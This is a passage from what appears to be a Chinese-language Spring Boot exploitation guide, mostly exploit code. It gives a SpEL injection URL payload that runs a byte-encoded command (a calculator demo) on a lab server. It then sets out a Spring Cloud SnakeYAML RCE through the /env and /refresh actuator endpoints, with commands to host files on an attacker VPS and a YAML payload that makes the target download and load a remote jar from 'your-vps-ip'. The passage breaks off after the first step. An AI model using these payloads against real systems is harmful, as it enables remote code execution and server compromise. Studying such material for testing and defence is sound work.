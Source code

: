​	[SpringBoot SpEL表达式注入漏洞-分析与复现](https://www.cnblogs.com/litlife/p/10183137.html)



#### 漏洞环境：

[repository/springboot-spel-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-spel-rce)

正常访问：

```
http://127.0.0.1:9091/article?id=66
```

执行 `open -a Calculator` 命令：

```java
http://127.0.0.1:9091/article?id=${T(java.lang.Runtime).getRuntime().exec(new%20String(new%20byte[]{0x6f,0x70,0x65,0x6e,0x20,0x2d,0x61,0x20,0x43,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72}))}
```

 

### 0x02：spring cloud SnakeYAML RCE

#### 利用条件：

- 可以 POST 请求目标网站的 `/env` 接口设置属性
- 可以 POST 请求目标网站的 `/refresh` 接口刷新配置（存在 `spring-boot-starter-actuator` 依赖）
- 目标依赖的 `spring-cloud-starter` 版本 < 1.3.0.RELEASE
- 目标可以请求攻击者的 HTTP 服务器（请求可出外网）



#### 利用方法：

##### 步骤一： 托管 yml 和 jar 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```bash
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```



在网站根目录下放置后缀为 `yml` 的文件  `example.yml`，内容如下：

```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://your-vps-ip/example.jar"]
  ]]
]
```


